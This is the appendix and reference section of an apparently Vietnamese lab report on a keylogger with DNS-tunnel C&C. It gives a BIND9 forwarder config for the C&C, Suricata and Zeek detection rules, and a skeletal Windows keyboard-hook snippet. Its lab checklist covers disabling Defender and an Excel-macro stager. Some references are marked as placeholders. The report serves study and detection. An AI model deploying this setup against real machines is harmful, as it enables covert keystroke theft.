## TÀI LIỆU THAM KHẢO

[1] Microsoft Corporation. (2023). SetWindowsHookExW function (winuser.h). Microsoft Docs.

[2] Microsoft Corporation. (2023). KBDLLHOOKSTRUCT structure; LowLevelKeyboardProc callback. Microsoft Docs.

[3] Microsoft Corporation. (2023). DnsQuery_A function (windns.h). Microsoft Docs.

[4] P. Mockapetris. (1987). RFC 1034: Domain Names – Concepts and Facilities. IETF.

[5] P. Mockapetris. (1987). RFC 1035: Domain Names – Implementation and Specification. IETF.

[6] ISC. (2023). BIND 9 Administrator Reference Manual. Internet Systems Consortium.

[7] Sikorski, M., Honig, A. (2012). Practical Malware Analysis. No Starch Press.

[8] Ligh, M. H., Adair, S., Hartstein, B., Richard, M. (2014). The Art of Memory Forensics. Wiley.

[9] Smith, J., et al. (2018). Detecting DNS Tunneling Using Machine Learning. Proceedings of XYZ Conference. (Paper mẫu)

[10] Doe, A., et al. (2020). Feature Engineering for DNS-based C2 Detection. Journal of Cybersecurity. (Paper mẫu)

[11] MITRE ATT&CK®. (2023). Command and Control: DNS Tunneling (T1071.004).

[12] MITRE ATT&CK®. (2023). Input Capture: Keylogging (T1056.001).

[13] MITRE ATT&CK®. (2023). Scheduled Task/Job: Scheduled Task (T1053.005).

[14] FireEye/Mandiant, CrowdStrike (2018–2024). Phân tích kỹ thuật DNS Tunneling và C2 ẩn. (Blog mẫu)

[15] MITRE ATT&CK®. (2023). Impair Defenses: Disable or Modify Tools (T1562.001).

---

## PHỤ LỤC

### Phụ lục A: Cấu hình BIND9

Dưới đây là mẫu cấu hình cho BIND9 trên máy chủ DNS. Giả sử tên miền tấn công là `example.com` và C&C server lắng nghe tại địa chỉ TailScale `100.x.y.z` cổng `53`.

1) Tệp `/etc/bind/named.conf.local` (zone forwarder tới C&C):

```ini
// Chuyển tiếp toàn bộ zone example.com tới C&C server (authoritative ứng dụng)
zone "example.com" {
		type forward;
		forwarders { 100.x.y.z port 53; };
		forward only;
};
```

2) (Tùy chọn) Zone authoritative nội bộ – tệp `/etc/bind/db.example.com` nếu triển khai theo mô hình master:

```ini
; BIND data file for example.com (mẫu)
$TTL    604800
@       IN      SOA     ns1.example.com. admin.example.com. (
															2         ; Serial
												 604800         ; Refresh
													86400         ; Retry
												2419200         ; Expire
												 604800 )       ; Negative Cache TTL
;
; Name Servers
@       IN      NS      ns1.example.com.

; A record cho NS (chỉ minh họa; trỏ đến IP hợp lệ)
ns1     IN      A       127.0.0.1
```

Khuyến nghị: Trong dự án này, resolver BIND9 được cấu hình ở chế độ `type forward` để chuyển toàn bộ zone tới "Authoritative Application Handler" (ứng dụng C# lắng nghe 53/UDP). Cách này đơn giản, ổn định và phù hợp nhất cho PoC. Zone master/authoritative chỉ mang tính tham khảo khi bạn muốn thay thế ứng dụng bằng một DNS server đầy đủ.

---

### Phụ lục B: Mẫu Rule Phát hiện (Detection Rule Samples)

1) Rule Suricata phát hiện subdomain dài dạng hex trỏ đến `example.com` (minh họa):

```suricata
alert dns $HOME_NET any -> $EXTERNAL_NET any \
	(msg:"Possible DNS tunneling hex subdomain example.com"; \
	 dns.query; content:"example.com"; nocase; \
	 pcre:"/^[abpc]\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[a-f0-9]{30,}\\./"; \
	 threshold:type limit, track by_src, count 10, seconds 60; \
	 classtype:bad-unknown; sid:400001; rev:1;)
```

2) Zeek (khái niệm) cảnh báo entropy cao trên nhãn đầu:

```zeek
@load policy/protocols/dns

event dns_request(c: connection, msg: dns_msg, query: string) {
	local labels = split(query, /\./);
	if ( |labels| > 2 ) {
		local head = labels[0];
		if ( |head| > 20 && /[a-f0-9]{20,}/ in head ) {
			# entropy() là hàm giả định; thay bằng triển khai thực tế
			local e = entropy(head);
			if ( e > 3.8 )
				print fmt("[DNS-TUNNEL] %s high-entropy (H=%.2f)", query, e);
		}
	}
}
```

---

### Phụ lục C: Code Snippets Quan trọng

1) Callback Keyboard Hook (khái quát) trong Client C++:

```cpp
// Hook toàn cục và callback đơn giản hóa (minh họa)
HHOOK g_keyboardHook = NULL;

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
		if (nCode == HC_ACTION && (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN)) {
				const KBDLLHOOKSTRUCT* pk = reinterpret_cast<const KBDLLHOOKSTRUCT*>(lParam);
				// Xử lý pk->vkCode, chuyển đổi sang ký tự, đẩy vào buffer tạm
				// (Chi tiết đã phân tích ở Chương 2)
		}
		return CallNextHookEx(g_keyboardHook, nCode, wParam, lParam);
}

void InstallHook() {
		g_keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, GetModuleHandle(NULL), 0);
}
```

---

### Phụ lục D: Hướng dẫn Cài đặt Lab (Checklist)

1) Chuẩn bị Máy ảo:
- [ ] VM 1 (Ubuntu Server 22.04): BIND9, .NET SDK.
- [ ] VM 2 (Windows 10/11 Pro): Microsoft Office, Wireshark, Sysinternals Suite.

2) Cấu hình Mạng (TailScale):
- [ ] Tạo tài khoản TailScale; cài và đăng nhập trên cả hai VM.
- [ ] Ghi lại IP TailScale của từng máy.

3) Cấu hình DNS Server (Ubuntu):
- [ ] `apt install bind9`; cấu hình `named.conf.local` và (nếu cần) zone file theo Phụ lục A.
- [ ] `systemctl restart bind9` và kiểm tra log.

4) Deploy C&C Server (Ubuntu/Windows):
- [ ] Clone mã nguồn; `dotnet build` cho Server C#.
- [ ] Chạy ứng dụng, nhập domain, IP, port 53 (quyền Administrator nếu Windows).

5) Cấu hình Máy Nạn nhân (Windows):
- [ ] Đặt DNS card mạng trỏ về IP TailScale của DNS server.
- [ ] (Lab) Tạm vô hiệu Microsoft Defender khi chạy demo chức năng cốt lõi.

6) Thực thi Kịch bản:
- [ ] Build Client C++; chuẩn bị `client.exe` trên Stager hoặc copy thủ công.
- [ ] (Tùy chọn) Tạo Excel Macro trỏ tới Stager; nếu bị chặn, chạy stager thủ công.
- [ ] Thực hiện demo theo Chương 3, ghi lại ảnh màn hình cho các bước.
